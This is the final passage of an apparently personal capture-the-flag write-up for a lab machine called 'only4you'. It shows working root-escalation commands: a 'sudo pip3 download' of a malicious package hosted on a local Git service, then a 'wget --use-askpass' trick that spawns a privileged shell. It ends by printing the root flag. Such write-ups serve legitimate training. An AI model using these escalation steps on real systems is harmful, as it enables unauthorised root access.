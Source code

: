 ```
   cfb1ab6..328d708  master -> master

```

Great now it's just a matter of:

```

john@only4you:/dev/shm/Test$ sudo /usr/bin/pip3 download http\://127.0.0.1\:3000/john/Test/src/master/exploitpy-0.0.1.tar.gz
Collecting http://127.0.0.1:3000/john/Test/src/master/exploitpy-0.0.1.tar.gz
  File was already downloaded /dev/shm/Test/exploitpy-0.0.1.tar.gz
Successfully downloaded exploitpy

```

#### Getting Root
```

john@only4you:/dev/shm/Test$ TF=$(mktemp)
john@only4you:/dev/shm/Test$ chmod +x $TF
john@only4you:/dev/shm/Test$ echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
john@only4you:/dev/shm/Test$ /usr/bin/wget --use-askpass=$TF 0
# bash -p
bash-5.0# cat /root/root.txt 
ae6e52594bc580f2cf00c3139f13b841

```

And that's it, thanks for tuning in that was a hard one espacially the user part. Cheers.
